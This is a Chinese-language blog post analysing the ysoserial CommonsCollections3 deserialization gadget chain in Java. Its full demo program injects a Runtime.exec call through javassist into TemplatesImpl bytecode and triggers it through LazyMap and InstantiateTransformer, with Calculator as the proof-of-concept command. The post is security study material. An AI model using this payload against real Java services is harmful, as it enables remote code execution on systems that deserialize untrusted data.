







在分析完CommonsCollections1之后，紧接着分析了CommonsCollections3。为什么是3呢？因为3和1都是需要JDK版本一样，而且payload构造的前半部分完全一样，不同的只是chainedTransformer的构造。
前面已经分析了:ysoserial分析之CommonsCollections1
CommonsCollections3从外层和CommonsCollections1一样都是从AnnotationInvocationHandler的readObject函数进入的。进入之后调用到了LazyMap.get()方法，从而调用到ChainedTranformer.transform()方法。
之前的CommonsCollections1使用的是InvokerTransformer的transform，因为该函数实现了反射调用任意类的功能。而CommonsCollection3使用的是新的Transformer类InstantiateTransformer
首先关注一下整个的利用链:
1 2 3 4 5 6 7 8 9 10 11 AnnotationInvocationHandler.readObject() ->Proxy(LazyMap).entrySet() ->LazyMap.get() ->ChainedTransformer.transform() ->constantTransformer(TrAXFilter.class) ->InstantiateTransformer.transform() ->Constructor.newInstance() ->TemplatesImpl.newTransformer() ->TemplatesImpl.getTransletInstance() ->TemplatesImpl.defineTransletClasses() ->AbstractTranslet.newInstance()
利用链分析 由于前面的构造与1一致，这里我们直接看InstantiateTransformer类的tranform方法，它会对当前传入的类进行实例化，那么传入哪个类呢？

这里就要介绍TrAXFiltertemplates.newTransformer()，templates是实例化时传入的参数this.iArgs，可以看到它是一个Templates类。

跟进这个newTransformer()函数，可以发现它实例化了一个TransformerImpl类，在其中调用了getTransletInstance()函数，跟进这个函数。

跟进这个函数后，可以看到它经过2个判断后，会调用到defineTransletClasses()函数。调用完这个函数后，在其后对_class[_transletIndex]这个类进行实例化，生成了AbstractTranslet对象。最后返回这个对象。

若_class[_transletIndex]的构造方法或者静态块中存在可控的命令执行，那么就会产生RCE。接下来跟进defineTransletClasses()函数。

首先会实例化一个loader，然后调用defineClass()函数，跟进一步可以发现，它实际上调用的是ClassLoader类的defineClass()函数。这个函数的作用是从byte数组中恢复一个Class。这是ClassLoader从byte数组中还原Class的方法。若_bytecodes是可控的，那么就可以加载任意类，且在后续的实例化中会达到任意命令执行。
_bytecodes是TemplatesImpl对象的一个成员。在一开始TrAFilter实例化时可以传入一个TemplatesImpl对象。所以，整个反序列化的链就出来了。
payload构造 由分析可知，利用的是TrAxFilter类的实例化函数，首先需要获取到TrAxFilter类。使用ConstantTransformer即可。然后此类在实例化时传入的是TemplatesImpl类，因此InstantiateTranformer的参数为TemplatesImpl。ChainedTransformer链的构造如下:
1 2 3 4 Transformer[] transformer = new Transformer[]{ new ConstantTransformer(TrAXFilter.class ), new InstantiateTransformer(new Class[] {Templates.class}, new Object[] {templates}) };
其中templates为一个特定的TemplatesImpl对象。在上面的分析中可以得知，该对象的_bytecodes值中是能执行命令的恶意类的字节码。恶意类如何构造呢？
在构造恶意类时，ysoserial使用了javassist来对静态块注入任意代码。首先该类必须继承AbstractTranslet，并且能够被反序列化。
1 2 3 4 5 6 7 8 9 public static class StubTransletPayload extends AbstractTranslet implements Serializable private static final long serialVersionUID = -5971610431559700674L ; public void transform (DOM document, SerializationHandler[] handlers) throws TransletException @Override public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException }
由于StubTransletPayload继承自抽象类，所以其子类中必须实现transform方法。而且其成员变量必须用final关键字修饰。
然后在通过javassist来向静态块中插入任意代码。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 String command = "/Applications/Calculator.app/Contents/MacOS/Calculator" ; String cmd = "java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\\\\" ,"\\\\\\\\" ).replaceAll("\"" , "\\\"" ) + "\");" ; ClassPool pool = ClassPool.getDefault(); pool.insertClassPath(new ClassClassPath(StubTransletPayload.class )) ; pool.insertClassPath(new ClassClassPath(AbstractTranslet.class )) ; CtClass clazz = pool.get(StubTransletPayload.class .getName ()) ; clazz.makeClassInitializer().insertAfter(cmd); CtClass superC = pool.get(AbstractTranslet.class .getName ()) ; clazz.setSuperclass(superC); byte [] classBytes = clazz.toBytecode();
到此为止，恶意类构造完了，接下来需要的是保证反序列化链中的相应的函数能够被调用到，由于可控的是TemplatesImpl，从与它相关的函数调用分析。在newTransformer()函数中，调用了getTransletInstance()函数，在这之前没有其他分支，进入此函数。首先_name成员变量不能为空，否则直接返回null。其次_class成员变量必须为空才能进入defineTransletClasses()函数。进入此函数，可以看到首先_bytecodes函数不能为空，然后在生成loader对象时，需要对_tfactory成员变量赋值。其次，在从字节码中加载了类之后，会判断其父类必须等同于ABSTRACT_RANSLET。这就是为什么上面的代码中会对其父类进行设置。
对于TemplatesImpl的其他设置如下:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 Object templates = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" ).newInstance(); Field field = templates.getClass().getDeclaredField("_bytecodes" ); field.setAccessible(true ); field.set(templates,new byte [][] {classBytes,classFiles.classAsBytes(Foo.class )}) ; Field field2 = templates.getClass().getDeclaredField("_name" ); field2.setAccessible(true ); field2.set(templates,"ananaskr" ); Field field3 = templates.getClass().getDeclaredField("_tfactory" ); field3.setAccessible(true ); field3.set(templates, TransformerFactoryImpl.class .newInstance ()) ;
在这里出现了一个Foo.class。事实上_bytecodes是一个byte[][]。需要2个class的字节码，Foo.class就是一个实现了Serializable的空类。
完整demo 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import javassist.ClassClassPath;import javassist.ClassPool;import javassist.CtClass;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InstantiateTransformer;import org.apache.commons.collections.map.LazyMap;import javax.xml.transform.Templates;import java.io.*;import java.lang.reflect.*;import java.util.HashMap;import java.util.Map;public class test public static class StubTransletPayload extends AbstractTranslet implements Serializable private static final long serialVersionUID = -5971610431559700674L ; public void transform (DOM document, SerializationHandler[] handlers) throws TransletException @Override public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException } public static class Foo implements Serializable private static final long serialVersionUID = 8207363842866235160L ; } public static void main (String[] args) throws Exception String command = "/Applications/Calculator.app/Contents/MacOS/Calculator" ; String cmd = "java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\\\\" ,"\\\\\\\\" ).replaceAll("\"" , "\\\"" ) + "\");" ; Object templates = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" ).newInstance(); ClassPool pool = ClassPool.getDefault(); pool.insertClassPath(new ClassClassPath(StubTransletPayload.class )) ; pool.insertClassPath(new ClassClassPath(AbstractTranslet.class )) ; CtClass clazz = pool.get(StubTransletPayload.class .getName ()) ; clazz.makeClassInitializer().insertAfter(cmd); CtClass superC = pool.get(AbstractTranslet.class .getName ()) ; clazz.setSuperclass(superC); byte [] classBytes = clazz.toBytecode(); Field field = templates.getClass().getDeclaredField("_bytecodes" ); field.setAccessible(true ); field.set(templates,new byte [][] {classBytes,classFiles.classAsBytes(Foo.class )}) ; Field field2 = templates.getClass().getDeclaredField("_name" ); field2.setAccessible(true ); field2.set(templates,"ananaskr12345" ); Field field3 = templates.getClass().getDeclaredField("_tfactory" ); field3.setAccessible(true ); field3.set(templates, TransformerFactoryImpl.class .newInstance ()) ; Transformer[] transformer = new Transformer[]{ new ConstantTransformer(TrAXFilter.class ), new InstantiateTransformer(new Class[] {Templates.class}, new Object[] {templates}) }; ChainedTransformer chainedTransformer = new ChainedTransformer(transformer); Map map = new HashMap(); Map lazyMap = LazyMap.decorate(map,chainedTransformer); ClassLoader loader = lazyMap.getClass().getClassLoader(); Class[] interfaces = lazyMap.getClass().getInterfaces(); Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ).getDeclaredConstructors()[0 ]; ctor.setAccessible(true ); InvocationHandler handler = (InvocationHandler) ctor.newInstance(Override.class ,lazyMap ) ; Map mapProxy = (Map) Proxy.newProxyInstance(loader,interfaces,handler); Constructor cttor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ).getDeclaredConstructors()[0 ]; cttor.setAccessible(true ); InvocationHandler handler1 = (InvocationHandler) ctor.newInstance(Override.class ,mapProxy ) ; ByteArrayOutputStream baos = new ByteArrayOutputStream(); ObjectOutputStream out = new ObjectOutputStream(baos); out.writeObject(handler1); out.flush(); out.close(); byte [] bytes = baos.toByteArray(); ByteArrayInputStream bais = new ByteArrayInputStream(bytes); ObjectInputStream in = new ObjectInputStream(bais); in.readObject(); in.close(); } }
其中对Foo.class转换为bytecode的代码，直接使用了ysoserial中的ClassFiles。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 import java.io.ByteArrayOutputStream;import java.io.IOException;import java.io.InputStream;public class classFiles public static String classAsFile (final Class<?> clazz) return classAsFile(clazz, true ); } public static String classAsFile (final Class<?> clazz, boolean suffix) String str; if (clazz.getEnclosingClass() == null ) { str = clazz.getName().replace("." , "/" ); } else { str = classAsFile(clazz.getEnclosingClass(), false ) + "$" + clazz.getSimpleName(); } if (suffix) { str += ".class" ; } return str; } public static byte [] classAsBytes(final Class<?> clazz) { try { final byte [] buffer = new byte [1024 ]; final String file = classAsFile(clazz); final InputStream in = classFiles.class .getClassLoader ().getResourceAsStream (file ) ; if (in == null ) { throw new IOException("couldn't find '" + file + "'" ); } final ByteArrayOutputStream out = new ByteArrayOutputStream(); int len; while ((len = in.read(buffer)) != -1 ) { out.write(buffer, 0 , len); } return out.toByteArray(); } catch (IOException e) { throw new RuntimeException(e); } } }
运行结果如下:

可以看到弹出计算器的同时，也出现了一些报错信息。对于这些报错信息，ysoserial作者回应，在很多payload中会有这些错误的出现，但并不影响代码的执行。可参考https://github.com/frohoff/ysoserial/issues/69 。

参考